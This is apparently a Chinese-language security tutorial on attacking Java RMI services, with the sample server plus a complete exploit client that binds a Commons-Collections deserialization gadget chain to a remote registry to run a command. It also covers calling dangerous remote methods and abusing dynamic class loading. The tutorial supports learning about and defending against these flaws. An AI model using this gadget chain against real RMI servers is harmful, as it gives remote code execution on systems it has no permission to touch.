


### 0x01 前言

上一章介绍了rmi的基本概念，以及浅显的提了一下rmi的利用点。这一章将结合具体的代码与实践来讲解攻击rmi的方式。

### 0x02 利用反序列化攻击RMI

这也是我们在上文中提到的攻击方式，这个攻击有两个前提：

1. rmi服务端提供了接收Object类型参数的远程方法
2. rmi服务器的lib或着说classpath中有存在pop利用链的jar包，例如3.1版本的commons-collections.jar

我们直接来看一个案例(RMI server还是用的上一章的那个demo)：

Server端：

```java
package server;

import model.Hello;
import model.impl.Helloimpl;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException{
        // 创建对象
        Hello hello = new Helloimpl();
        // 创建注册表
        Registry registry = LocateRegistry.createRegistry(1099);
        // 绑定对象到注册表，并给他取名为hello
        registry.rebind("hello", hello);
    }
}
```

现在，我们需要构造一个恶意的客户端，向服务端发送一个恶意的序列化对象，如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class RMIExploit {

    public static void main(String[] args) throws Exception {

        // 远程RMI Server的地址
        String ip = "192.168.201.24";
        int port = 1099;
        // 要执行的命令
        String command = "gnome-calculator";

        final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class },
                        new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class },
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new Object[] { command }),
                new ConstantTransformer(1) };

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field valfield = badAttributeValueExpException.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(badAttributeValueExpException, entry);
        // 上面都是我们接触过得代码，正常的payload生成，下面的就是把它包装一下，让它可以在rmi中使用

        // 为了能够封装到AnnotationInvocationHandler中，需要把badAttributeValueExpException先放到一个map结构中
        String name = "axin";
        Map<String, Object> map = new HashMap<String, Object>();
        map.put(name, badAttributeValueExpException);
        // 获得AnnotationInvocationHandler的构造函数
        Constructor cl = Class.forName(ANN_INV_HANDLER_CLASS).getDeclaredConstructors()[0];
        cl.setAccessible(true);
        // 实例化一个Remote.class的代理
        InvocationHandler hl = (InvocationHandler)cl.newInstance(Override.class, map);
        Object object = Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, hl);
        Remote remote = Remote.class.cast(object);
        Registry registry=LocateRegistry.getRegistry(ip,port);
        registry.bind(name, remote);
    }
}
```

注释中已经解释了代码的用途，但是最后一点代码还是要着重说一下，因为bind(name,remote)中的remote对象必须要实现Remote接口，但是我们的badAttributeValueExpException是没有实现这个接口的，所以，这里利用了很巧妙的一个技巧，那就是利用动态代理，代理了Remote.class，且把这个类的handler设置为封装了我们的badAttributeValueExpException对象的AnnotationInvocationHandler，这里不一定是用AnnotationInvocationHandler封装，换成其他的handler也是可以的，这样就可以把我们的恶意序列化对象发到服务端了。

ps: 虽然我们的对象被封装到了handler中，但是java在反序列化时是会层层进行的，所以，不用担心我们的对象不被反序列化。

有些文章提到不能直接bind恶意对象到registry,只能本地进行bind、rebind、unbind等方法，但是经过我的测试，是可以的。实验结果如下：

服务端（我的物理机）：



攻击者（我的虚拟机）：




其实这种攻击方式还是攻击的registry(应该是吧)，如果registry与远程对象提供服务器不在同一主机上，那么就要注意我们攻击的是registry而不是远程对象提供服务器，但是一般Registry与远程对象提供服务器都是同一主机。

如果是不在同一主机，又想攻击远程对象提供服务器，那么就不能用上述调用bind方法的方式，而是需要满足一开始提到的那两个条件，并根据真实情况另外编写exp。


### 0x03 直接调用危险的远程方法

如同标题说的那样，如果Server端注册了一个对象到Registry,且这个对象中有某个方法可以进行某些危险操作，例如：写文件，执行命令等，那么我们就可以直接写一个Client端，然后调用这个危险的方法就可以完成攻击了。对于这个攻击方式，有一个挺好的工具：https://github.com/NickstaDB/BaRMIe

这个工具的原理应该就是利用list()方法，列出远程所有注册的远程对象，从而探测危险的对象～（猜的^^)

###  0x04 rmi动态类加载

RMI核心特点之一就是动态类加载，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，动态加载的对象class文件可以使用Web服务的方式进行托管。这可以动态的扩展远程应用的功能，RMI注册表上可以动态的加载绑定多个RMI应用。对于客户端而言，服务端返回值也可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些子类中被重写的方法，则同样需要有运行时动态加载额外类的能力。客户端使用了与RMI注册表相同的机制。RMI服务端将URL传递给客户端，客户端通过HTTP请求下载这些类。 


所以，如果我们可以控制客户端从哪里加载类，那么就能够让客户端加载恶意类，完成攻击的目的。